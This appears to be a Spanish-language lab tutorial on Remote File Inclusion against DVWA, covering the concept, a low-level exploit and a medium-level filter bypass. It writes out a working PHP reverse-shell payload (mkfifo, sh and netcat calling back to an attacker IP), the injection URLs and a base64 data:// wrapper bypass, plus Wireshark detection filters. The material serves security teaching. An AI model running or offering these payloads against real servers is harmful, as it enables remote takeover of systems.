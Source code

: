 La Inclusión de Archivos Remotos (RFI) es una versión de la Inclusión de Archivos Locales (LFI) que extiende su alcance. En RFI, un atacante logra hacer que la aplicación web, que se está ejecutando en el servidor, establezca una conexión con un servidor externo para cargar e incluir un archivo de este, en lugar de usar un archivo que ya esté en el propio servidor como sucede con LFI.

![](capturas/lfi-vs-rfi.png)


En cuanto a las dificultades asociadas con el envenenamiento de registros (log poisoning) al explotar LFI:
- La cuenta bajo la cual se ejecuta la aplicación web en el servidor necesita tener los derechos suficientes para leer los archivos de registro (logs) que el atacante desea manipular.
- Es necesario descubrir una forma de insertar código dañino en esos archivos de registro locales, lo cual podría lograrse mediante acciones como enviar ciertas cabeceras HTTP o generar errores intencionadamente.

Si fuera posible incluir archivos alojados en un servidor controlado por el atacante o en otra ubicación bajo su control, estas limitaciones se eliminarían, lo que haría mucho más sencilla la ejecución de código malicioso.

La vulnerabilidad de RFI surge principalmente por dos razones:
- La falta de una limpieza adecuada de las entradas proporcionadas por el usuario, lo que permite la introducción de URLs externas.
- Una configuración insegura o por defecto tanto en el servidor web como en las aplicaciones, que admite este tipo de inclusión de archivos. Un ejemplo claro de esto es tener habilitada la opción allow_url_include en la configuración de PHP, que permite la inclusión de archivos de fuentes externas.

Lenguajes susceptibles a estos ataques: PHP, ASP, JSP, Python...

Con un ataque RFI se puede conseguir:
- Defacement de Sitios Web: El "defacement" se refiere a la alteración visual de un sitio web, donde el contenido original se reemplaza con contenido creado por el atacante. Esto suele hacerse por motivos de vandalismo, para promover una agenda política o social, o simplemente para demostrar la vulnerabilidad del sitio. Con un ataque RFI, un atacante puede incluir un archivo remoto que contenga HTML, JavaScript u otro código que cambie la apariencia del sitio web o muestre un mensaje específico del atacante. Dado que el archivo está siendo incluido y ejecutado por el servidor web como parte de la página web, el contenido del archivo remoto se renderizará en el navegador del usuario, efectivamente cambiando la apariencia del sitio.

- Ejecución Remota de Comandos: Aún más peligroso es la capacidad de ejecutar comandos de forma remota en el servidor web a través de un ataque RFI. Esto puede lograrse si el atacante logra incluir un script PHP (o cualquier otro lenguaje de servidor que se esté ejecutando) desde un servidor remoto que el servidor web víctima ejecutará como suyo. Este script puede contener código que ejecute comandos en el servidor, lo que podría permitir al atacante tomar el control total del servidor web, acceder a bases de datos sensibles, modificar archivos del sistema, instalar malware, crear backdoors para acceso futuro, entre otras acciones maliciosas. La ejecución remota de comandos abre la puerta a una amplia gama de actividades perjudiciales que pueden comprometer la seguridad y la funcionalidad del servidor y de los datos alojados en él.


### En la máquina atacante
Para obtner la shell reversa, usaremos netcat tanto en el atacante (kali) como en la víctima (ubuntu):
- En la máquina atacante (Kali), iniciamos Netcat en modo escucha especificando un puerto:
  ```
  nc -lnvp 9000
  ```
  ![](capturas/remote-file-inclusion.png)


- Creamos un documento que contendrá el fichero que deberá ejecutar la máquina víctima para lanzar la shell reversa:
  ```
  mkdir /tmp/files
  cd /tmp/files
  nano reverse.txt
  
  <?php
        passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| nc 192.168.1.103 9000 > /tmp/f");
  ?>  
  ```
  La función passthru ejecutará el comando que recibe como argumento. Este comando crea un canal de comunicación bidireccional entre la máquina víctima y la atacante, usando un archivo FIFO en /tmp/f. Primero, elimina /tmp/f si existe y luego crea un FIFO con mkfifo. Utiliza cat para leer este FIFO y pasa la salida a sh -i, creando una shell interactiva que redirige tanto la entrada estándar como la salida estándar y el error estándar a través de Netcat hacia la dirección IP 192.168.1.103 en el puerto 9000. Finalmente, la salida de Netcat se redirige de nuevo al FIFO, completando el circuito para la comunicación bidireccional. Los datos circulan a través de la conexión con la máquina atacante en la ip 192.168.1.103 y el puerto 9000, y la máquina vulnerable por medio del fichero FIFO.

- En el atacante arrancamos un servidor web:
  ```
  python3 -m http.server 80
  ```
  ![](capturas/remote-file-inclusion-2.png)
  ![](capturas/remote-file-inclusion-3.png)


### En la máquina víctima
Utilizamos la URL en la que conseguimos hacer LFI:
```
/DVWA/vulnerabilities/fi/?page=http://192.168.1.103/reverse.txt
```
![](capturas/remote-file-inclusion-4.png)

### En la máquina atacante
Vemos que se ha conseguido finalizar la shell reversa:
![](capturas/remote-file-inclusion-5.png)


## Viendo el ataque con Wireshark
![](capturas/remote-file-inclusion-6.png)
![](capturas/remote-file-inclusion-7.png)
![](capturas/remote-file-inclusion-8.png)

-----------------------------------------------------------
Otro detalle de otra secuencia:

![](capturas/remote-file-inclusion-9.png)


**Filtros wireshark para descubrir RFI:**
```
http || tcp.port == 80 || tcp.port == 443
(http.request or tls.handshake.type eq 1) and !(ssdp)
http.request.method == "POST"
http.request.method == "GET"
```

---------------------------------------------

# RFI en DVWA Nivel Medio
En el nivel medio vemos por el código que hace una validación de las entradas, impidiendo que se escriba http: ó https:
```
Medium File Inclusion Source
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\\" ), "", $file );

?>
```

Para poder ejecutar la shell reversa ahora **no funcionará**:
-  Hacer una request "page=http://192.168.1.103/reverse.txt" ya que la convierte en "page=192.168.1.103/reverse.txt", lo que provoca que no funcione el RFI.
- Hacer bypass del tipo: %68%74%74%70%3A%2F%2F --> http://

Para saltar esta restricción necesitaremos usar wrappers de php. Un ejemplo sencillo para ver cómo funciona la técnica es:
```
Código php --> <?php phpinfo(); ?>
Codificación de ese código en Base64 --> PD9waHAgcGhwaW5mbygpOyA/Pg==
Request que muestra la información php del servidor --> data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==
Request que muestra la información php del servidor --> data:application/x-httpd-php;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==
```

Mi código para realizar varias acciones en el servidor que incluyen eliminar un archivo, crear un FIFO (named pipe), escuchar comandos a través de este pipe, y reenviar la salida a una conexión Netcat abierta, lo que me permite obtener una shell interactiva.:
```
<?php passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| nc 192.168.1.103 9000 > /tmp/f"); ?>
```

El código PHP codificado en Base64 es:
```
PD9waHAgcGFzc3RocnUoInJtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8c2ggLWkgMj4mMXwgbmMgMTkyLjE2OC4xLjEwMyA5MDAwID4gL3RtcC9mIik7ID8+
```

Para usar este código en un ataque de RFI mediante el wrapper data://, insertaremos la cadena codificada en Base64 en la URL de la siguiente manera:
```
?data://text/plain;base64,PD9waHAgcGFzc3RocnUoInJtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8c2ggLWkgMj4mMXwgbmMgMTkyLjE2OC4xLjEwMyA5MDAwID4gL3RtcC9mIik7ID8+
```

Sin embargo, al probarlo en DVWA no funciona, devuelve un error:
![](capturas/remote-file-inclusion-10.png)

Este error de sintaxis suele ocurrir cuando PHP interpreta el código y encuentra un problema que impide su correcta ejecución. En este caso, parece ser un problema con cómo el código codificado en Base64 se decodifica y luego se evalúa como PHP. Específicamente, el mensaje de error sugiere que PHP no esperaba el token de cierre ?> al final de tu script, o podría haber un problema con la interpretación del código PHP una vez decodificado.

Una posible razón para este tipo de error es la inclusión de la etiqueta de cierre de PHP ?> al final del código, la cual en realidad no es necesaria en archivos que contienen únicamente código PHP. En algunos contextos, la presencia de esta etiqueta al final del script puede causar problemas, especialmente si después de la etiqueta se incluyen espacios en blanco o caracteres de nueva línea que PHP intenta ejecutar.

Dado que el mensaje de error indica un problema al final del archivo (es decir, después de decodificar el Base64),vamos a intentar remover la etiqueta de cierre ?> del código PHP antes de codificarlo en Base64. Esto ayudaría a prevenir cualquier problema que pueda surgir debido a contenido no deseado después de la etiqueta de cierre.

Código php - Codificación del Código en base 64 - Request RFI:
```
<?php passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| nc 192.168.1.103 9000 > /tmp/f");
PD9waHAgcGFzc3RocnUoInJtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8c2ggLWkgMj4mMXwgbmMgMTkyLjE2OC4xLjEwMyA5MDAwID4gL3RtcC9mIik7
data://text/plain;base64,PD9waHAgcGFzc3RocnUoInJtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8c2ggLWkgMj4mMXwgbmMgMTkyLjE2OC4xLjEwMyA5MDAwID4gL3RtcC9mIik7
```

Intentamos de nuevo RFI y ya comprobamos que funciona:
![](capturas/remote-file-inclusion-11.png)

